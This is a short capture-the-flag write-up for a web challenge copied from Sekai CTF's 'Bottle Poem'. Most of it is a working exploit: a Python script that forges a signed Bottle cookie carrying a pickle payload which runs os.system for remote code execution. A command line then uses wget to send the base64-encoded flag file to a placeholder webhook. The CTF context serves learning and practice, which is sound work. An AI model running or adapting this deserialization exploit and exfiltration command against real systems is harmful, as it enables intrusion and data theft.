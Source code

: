 This one was a copied challenge from Sekai CTF (Bottle Poem).

Solution:
https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/bottle-poem/solution

Script to get RCE:
```
#!/usr/bin/env python3

from bottle import response
import sys

command = sys.argv[1]

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

response.set_cookie('name', {'name': 'admin', 'v': PickleRce()}, secret="trrrrrrrrrrrrryyyyyyyyyyyharddddddddd")
print(f'Cookie: {response.headerlist[1][1]}')
```

To get flag:
```python3 solution-poems.py 'wget webhooklinkhere/?c=`/flag|base64`'```
And then replace the cookie with the output to get the flag.
